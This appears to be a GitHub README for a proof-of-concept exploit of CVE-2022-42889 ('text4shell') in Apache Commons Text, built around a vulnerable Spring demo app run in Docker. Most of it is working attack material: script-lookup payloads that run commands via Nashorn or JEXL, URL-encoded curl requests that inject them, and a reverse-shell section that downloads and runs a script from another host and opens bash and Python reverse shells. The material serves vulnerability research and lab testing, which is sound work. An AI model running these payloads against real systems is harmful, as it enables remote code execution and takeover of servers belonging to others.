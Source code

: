 # CVE-2022-42889 aka text4shell

PoC for recently discovered [vulnerability](https://securitylab.github.com/advisories/GHSL-2022-018_Apache_Commons_Text/) in Apache Commons Text by [@pwntester](https://github.com/pwntester):

As mentioned in https://www.rapid7.com/blog/post/2022/10/17/cve-2022-42889-keep-calm-and-stop-saying-4shell/:
>The vulnerability exists in the StringSubstitutor interpolator object. An interpolator is created by the StringSubstitutor.createInterpolator() method and will allow for string lookups as defined in the StringLookupFactory. This can be used by passing a string “${prefix:name}” where the prefix is the aforementioned lookup. Using the “script”, “dns”, or “url” lookups would allow a crafted string to execute arbitrary scripts when passed to the interpolator object.

# Affected versions
The affected Apache Commons Text versions are 1.5 through 1.9.
It has been patched in version 1.10.

# Conditions to be exploited
- Run a version of Apache Commons Text from version 1.5 to 1.9
- Use the [StringSubstitutor](https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/StringSubstitutor.html) interpolator class

To be remotely exploited, attacker controlled input must be used as input for the StringSubstitutor interpolation. In particular, in `StringSubstitutor.replace()` or `StringSubstitutor.replaceIn()` methods

# Other javascript script engines
Since JDK 15 the Nashorn JavaScript Engine was removed: https://openjdk.org/jeps/372. 
But if third parties dependencies are included such as JEXL, RCE in Apache Commnos Text could happen (https://twitter.com/pwntester/status/1582321752566161409)

# Exploitation
## script interpolator
It can be exploited to gain RCE.

### JDK < 15
Nashorn engine:
```
${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}
```
### JDK 15+ 
If using third party JEXL:
```
${script:JEXL:''.getClass().forName('java.lang.Runtime').getRuntime().exec('touch /tmp/pwned')}
```

## dns interpolator
It can lead to a DNS lookup:

```
${dns:address|commons.apache.org}
```

## url interpolator
It connects to the specified URL and tries to fetch the content:

```
${url:UTF-8:https://nvd.nist.gov/vuln/detail/CVE-2022-42889
```

# Manual compilation of PoC
Template based on https://start.spring.io/

```
mvn clean package -DskipTests
java -jar spring-boot-0.0.1-SNAPSHOT.jar 
```

# Running app in Docker 

## Using JVM 11
```
sudo docker build -t text4shell . -f Dockerfile.Java11
sudo docker run -p 8080:8080 text4shell 
```

## Using JVM 19
```
sudo docker build -t text4shell . -f Dockerfile.Java19
sudo docker run -p 8080:8080 text4shell 
```

# Provided POCs

There are different endpoints provided to test for the different attack vectors mentioned.

## /poc1
![image](https://user-images.githubusercontent.com/17437230/197401848-b78ffbe9-6ed9-4311-80e7-a740273c8214.png)

```
curl http://localhost:8080/poc1
```

![image](https://user-images.githubusercontent.com/17437230/197400588-a0ccdf5e-9f0d-4cc9-b640-0748a5009b88.png)


## /poc2
![image](https://user-images.githubusercontent.com/17437230/197401868-7b036a29-7a92-4130-a2fb-383f8b9108eb.png)

```
curl http://localhost:8080/poc2
```
![image](https://user-images.githubusercontent.com/17437230/197400614-3a3a833f-a389-4d89-b5b1-55031aae94c7.png)


## /poc3
![image](https://user-images.githubusercontent.com/17437230/197401879-f3d51c8a-d89b-45a3-a82a-1b110b79ae26.png)

```
curl http://localhost:8080/poc3
```
![image](https://user-images.githubusercontent.com/17437230/197400681-68cea873-32db-4d70-a73a-84f17e0bd9f3.png)


## /message?text=
```
curl http://localhost:8080/message
curl http://localhost:8080/message?text=1
```
![image](https://user-images.githubusercontent.com/17437230/197400701-d510a14a-f84f-40ad-a366-ac728d2d5b8a.png)

Using Nashorn:
```
curl http://localhost:8080/message?text=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec(%27touch%20%2Ftmp%2Ffoo%27)%7D
```
![image](https://user-images.githubusercontent.com/17437230/197400719-bca9c7bd-6ed6-401c-a5a6-816421b10b4a.png)
![image](https://user-images.githubusercontent.com/17437230/197400762-be8edd58-746b-477a-b88a-dacc8a0e3745.png)


Using JEXL:
```
curl http://localhost:8080/message?text=%24%7Bscript%3AJEXL%3A%27%27.getClass().forName(%27java.lang.Runtime%27).getRuntime().exec(%27touch%20%2Ftmp%2Fpwned%27)%7D
```

![image](https://user-images.githubusercontent.com/17437230/197401400-7f808c80-8d6a-4872-9ac3-70fe6abdc110.png)

![image](https://user-images.githubusercontent.com/17437230/197401492-76d72ee8-5fe9-4d77-a8bf-1208637b6d33.png)


# Get a reverse shell

Just to be simple I am using the default Docker interface for netcat listener.
Poking around, I came up with these payloads with bash and python reverse shells working ok:

```
${script:javascript:java.lang.Runtime.getRuntime().exec('curl -s http://172.17.0.1:3333/rev.sh -o /tmp/rev.sh')}
${script:javascript:java.lang.Runtime.getRuntime().exec('bash /tmp/rev.sh')}
```

Where rev.sh is served with these possible contents:

```
bash -i >& /dev/tcp/172.17.0.1/5555 0>&1
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.1,5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image](https://user-images.githubusercontent.com/17437230/197407317-5aedfd4b-c425-4a23-b65f-ebf039cce5a2.png)
![image](https://user-images.githubusercontent.com/17437230/197407480-beda6518-795d-4d15-8a33-655beb679ad2.png)


![image](https://user-images.githubusercontent.com/17437230/197407304-377295cf-8750-4a88-8b61-cd07ba3445bc.png)
![image](https://user-images.githubusercontent.com/17437230/197407333-dcae01ae-ac48-4eae-8d9c-be9a7a393970.png)



# References
- https://securitylab.github.com/advisories/GHSL-2022-018_Apache_Commons_Text/
- https://sysdig.com/blog/cve-2022-42889-text4shell/
- https://nakedsecurity.sophos.com/2022/10/18/dangerous-hole-in-apache-commons-text-like-log4shell-all-over-again/
- https://www.rapid7.com/blog/post/2022/10/17/cve-2022-42889-keep-calm-and-stop-saying-4shell/
- https://www.cyberkendra.com/2022/10/apache-commons-text-code-execution.html
- https://twitter.com/pwntester/status/1583189642471706624
- https://twitter.com/pyn3rd/status/1582729285005037568
- https://medium.com/@cxzero/text4shell-cve-2022-42889-brief-vulnerability-analysis-and-exploitation-fe13a0baadbb

# Credits to other PoCs
- https://github.com/SeanWrightSec/CVE-2022-42889-PoC/
- https://github.com/korteke/CVE-2022-42889-POC
- https://github.com/karthikuj/cve-2022-42889-text4shell-docker
- https://github.com/ClickCyber/cve-2022-42889/blob/main/CVE-2022-42889.php
- https://github.com/kljunowsky/CVE-2022-42889-text4shell
- https://github.com/securekomodo/text4shell-poc
